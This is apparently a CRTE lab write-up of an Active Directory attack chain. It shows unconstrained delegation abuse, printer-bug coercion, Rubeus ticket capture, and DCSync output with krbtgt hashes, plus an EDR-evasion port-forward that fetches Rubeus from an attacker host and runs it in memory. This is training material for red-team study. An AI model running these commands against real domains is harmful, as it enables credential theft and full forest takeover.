CRTE - Certified Red Team Expert
Cross Domain Attacks - Unconstrained Delegation to Enterprise Admin
Cross-forest attacks leveraging unconstrained delegation exploit a fundamental trust weakness between child and root domains, allowing an attacker to escalate privileges and compromise the Enterprise Admins group. In this scenario, we focus on coercing authentication from the root forest domain controller (techcorp.local DC) to a compromised machine (us-web) in the child domain (us.techcorp.local) that has unconstrained delegation enabled.Why Does This Attack Work?
Unconstrained delegation allows a server to impersonate any user who authenticates to it by storing their Ticket Granting Ticket (TGT) in memory. In a multi-domain or cross-forest scenario, this means that if we can force an Enterprise Admin or Domain Controller from the root domain to authenticate to our compromised machine in the child domain, we can extract their TGT and escalate privileges across the entire forest. In this lab scenario, the us-web machine in us.techcorp.local has unconstrained delegation enabled. This means that any account that authenticates to this machine will have its TGT cached. By coercing the root forest domain controller (techcorp.local DC) to authenticate to us-web, we capture its TGT, which allows us to impersonate it.Breaking Down the Attack
The attack starts with a low-privileged foothold but escalates due to the misconfiguration of unconstrained delegation in a cross-domain trust scenario.- Compromising an Unconstrained Delegation Host
- Coercing the Root Domain Controller to Authenticate
- Extracting the Root Domain Controller's TGT
- Impersonating the Root Domain Controller & Running DCSync
- Forging a Golden Ticket & Gaining Enterprise Admin Privileges
Why This is a Cross-Forest Issue
The attack works because domain controllers in the root and child domains trust each other, and unconstrained delegation does not limit which domain’s tickets can be cached. By coercing authentication from the root domain to a child domain machine, we escalate across domain boundaries. Without unconstrained delegation, a domain controller would not store a reusable authentication ticket on a child domain machine. However, because us-web has unconstrained delegation, it stores the TGT of the root DC, allowing an attacker to escalate from child domain admin to Enterprise Admin.Final Understanding
This attack highlights how misconfigurations in delegation settings can lead to full forest compromise. Unconstrained delegation allows any account that authenticates to a machine to have its TGT cached, and when a domain controller from the root domain is coerced into authenticating, its TGT can be stolen and used to compromise the entire Active Directory environment. By abusing cross-domain trust, we escalate from a single misconfigured child domain machine to full Enterprise Admin privileges in the root domain.
Let’s elevate our privilege as user webmaster, we already know that webmaster has local admin inside us-web machine. Let’s use Rubeus to request, inject and spawn webmaster TGT into a new process. Let’s start by encoding our Rubeus argument (asktgt), using Arsplit.bat file and do the copy/paste of the encoded argument into our current session. Argsplit.bat
Let’s now run Rubeus in the memory using Loader.exe to request webmaster’s TGT and inject it into a new cmd process. C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
As we can see, we were able to elevate our privilege as webadmin by injecting it’s TGT into a new cmd process. Now, in this new process let’s start by sending our loader.exe into us-web, since we will be executing Rubeus in the memory in this target to abuse the Unconstrained Delegation.
Mapping Shares to local system
Let’s start by Mapping shares from remote servers to our local system to allow seamless access to the target machine's files as if they were stored locally. This is useful for tasks like transferring payloads, extracting sensitive data, or staging tools for further exploitation. We will use this approach to be able to transfer files to our target US-Web.
Advantages:- Convenience: It simplifies interaction with the target's file system, enabling easy copying, reading, or modification of files.
- Efficiency: File transfers and tool deployments are faster and more straightforward compared to manual uploads or downloads.
- Persistence: The mapped drive can remain accessible for the session, allowing continuous interaction without repeatedly authenticating.
- Stealth: Uses built-in Windows functionality, making the activity less suspicious to some monitoring tools.
Note: If your mapping does not work on the one-liner passing the password on it, it’s probably due to special characters on the credential and you may get error Password i not correct.To bypass this, you can simply do the whole mapping command and put the password after it is asked. net use x: \\US-WEB\C$\Users\Public
 We could successfully map drive x to US-WEB host on C:\Users\Public directory.
Let’s now Copy our loader into our target using xcopy.
echo F | xcopy C:\AD\Tools\Loader.exe x:Loader.exe /y
We could successfully map drive x to US-WEB host on C:\Users\Public directory.
Let’s now Copy our loader into our target using xcopy.
echo F | xcopy C:\AD\Tools\Loader.exe x:Loader.exe /y
 The echo F we pass in the beginning is to tell prompt that we are transferring a file.
After uploading our loader into the target, we can now delete our mapped driver x since we don’t need it anymore.
net use x: /delete
The echo F we pass in the beginning is to tell prompt that we are transferring a file.
After uploading our loader into the target, we can now delete our mapped driver x since we don’t need it anymore.
net use x: /delete

We have just deleted the x mapped driver.
What If we simply download and execute Rubeus in memory now using our Loader.exe on the target machine? We could simply run Rubeus calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.
Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like SafetyKatz can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like Rubeus directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Network Traffic Monitoring: When Rubeus is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- LSASS Process Access is a Red Flag: Tools like SafetyKatz attempt to access the LSASS process to extract credentials from memory. This is a highly suspicious activity that will easily be detected and is a major indicator of a malicious attack.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:
Portforwarding to bypass EDR
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call Rubeus using it’s localhost IP. Let’s remotelly access the us-web server and configure the portforwarding. winrs -r:us-web cmd netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163 Now we can also check if our portforwarding was configured properly with the following command.
netsh interfaace portproxy show all
Now we can also check if our portforwarding was configured properly with the following command.
netsh interfaace portproxy show all

We can see above that portforwarding has been properly configured and that traffic from local IP 127.0.0.1 on port 8080 will be automatically forwarded to our attacking IP 192.168.100.163 on port 80.
On our attacking machine, we should host our Rubeus.exe file, remember that our target will be requesting it to run it into the memory. I’m using HFS.exe, but this could be python2 or python3 for example. Also make sure that your local Firewall has been disabled since by default Windows blocks some connections from external networks into local network.
Let’s now encode the argument(monitor) we will be using when putting Rubeus on monitor mode and for this we will use the ArgSplit.bat file and we must also copy/paste these encoded argument into our session were we will be running Rubeus in monitor mode. ArgSplit.bat
We can now start our Rubeus in monitor mode on our target us-web machine. C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /targetuser:TECHCORP-DC$ /interval:5 /nowrap
Now that we do have our Rubeus in monitor mode on our target, let’s run MS-RPRN.exe on our attacking machine to abuse the printer bug. this time we will be pointing the root forest domain controller techcorp-dc as our target. C:\AD\Tools\MS-RPRN.exe \\techcorp-dc.techcorp.local \\us-web.us.techcorp.local
Now if we check our Rubeus in monitor mode again, we will see that this time we do have one new ticket. This is TECHCORP-DC$’s TGT.
We can copy Base64EncodedTicket, remove unnecessary spaces and newline (if any) and use the ticket with Rubes on the our attacking host. The Rubeus in monitor mode can be stopped already.
Let’s now encode the argument(ptt) we will be using when putting Rubeus and for this we will use the ArgSplit.bat file and we must also copy/paste these encoded argument into our session were we will be running Rubeus, in this case it’s on our own attacking machine.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /ticket:
As we can see above, we were able to successfully request and inject the Enterprise Domain Controller’s TGT and we can also checking this with klist command. klist
DCSync Attack
We can now go for a DCSync attack and simply request the Domain Enterprise’s KRBTGT account’s keys. Let’s now encode the argument(lsadump::dcsync) we will be using when putting SafetyKatz and for this we will use the ArgSplit.bat file and we must also copy/paste these encoded argument into our session were we will be running SafetyKatz.
Now that we have all setup, we can now run SafetyKatz.exe from memory using Loader.exe and request for KRBTGT’s keys. C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:techcorp\krbtgt /domain:techcorp.local" "exit"
mimikatz(commandline) # lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local
[DC] 'techcorp.local' will be the domain
[DC] 'Techcorp-DC.techcorp.local' will be the DC server
[DC] 'techcorp\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : krbtgt
SAM ACCOUNT
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 7/4/2019 1:52:52 AM
Object Security ID : S-1-5-21-2781415573-3701854478-2406986946-502
Object Relative ID : 502
Credentials:
Hash NTLM: 7735b8be1edda5deea6bfbacb7f2c3e7
ntlm- 0: 7735b8be1edda5deea6bfbacb7f2c3e7
lm - 0: 295fa3fef874b54f29fd097c204220f0
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : 9fe386f0ebd8045b1826f80e3af94aed
Primary:Kerberos-Newer-Keys
Default Salt : TECHCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 290ab2e5a0592c76b7fcc5612ab489e9663e39d2b2306e053c8b09df39afae52
aes128_hmac (4096) : ac670a0db8f81733cdc7ea839187d024
des_cbc_md5 (4096) : 977526ab75ea8691
Primary:Kerberos
Default Salt : TECHCORP.LOCALkrbtgt
Credentials
des_cbc_md5 : 977526ab75ea8691
Packages
NTLM-Strong-NTOWF
Primary:WDigest
01 3d5588c6c4680d76d2ba077526f32a5f
02 fe1ac8183d11d4585d423a0ef1e21354
03 eed2a6a9af2e107cdd5e722faf9ed37a
04 3d5588c6c4680d76d2ba077526f32a5f
05 fe1ac8183d11d4585d423a0ef1e21354
06 a5a3b7dd758f68b0a278704adb369bab
07 3d5588c6c4680d76d2ba077526f32a5f
08 0ef30f135647c7c486081630caf708da
09 0ef30f135647c7c486081630caf708da
10 65974a65a535c47de5c6b6712ffa5c8d
11 fe790227e59a7b92b642884eacb84841
12 0ef30f135647c7c486081630caf708da
13 3c5a73e8774f215ffdd890f5e6346a05
14 fe790227e59a7b92b642884eacb84841
15 752720442d3f869baff615ae37a01d64
16 752720442d3f869baff615ae37a01d64
17 994c18bfe477093681c6b1d60ca56ac9
18 5fdbdb1b61e0717ba72b31741ae7ea19
19 535375d7fc7b3ec068521ac5ab6680d4
20 64d869a620dced95df997d91c5c2ecda
21 16b97c2628a32cb876ede8bb4e6d5253
22 16b97c2628a32cb876ede8bb4e6d5253
23 eca0357ae57e1df149e2d016494173c9
24 6e22a7980efe7c6bf44f821ea902d209
25 6e22a7980efe7c6bf44f821ea902d209
26 bfd73a5e0a64a9c334d1108004a98be5
27 e55f4d4f79067737d4a95f11fdce1a13
28 0141dc3481204f4334a0cb4cf6be2067
29 8b31e2cda5a9dd5d728f55f44dc8e7ea
mimikatz(commandline) # exit
Bye!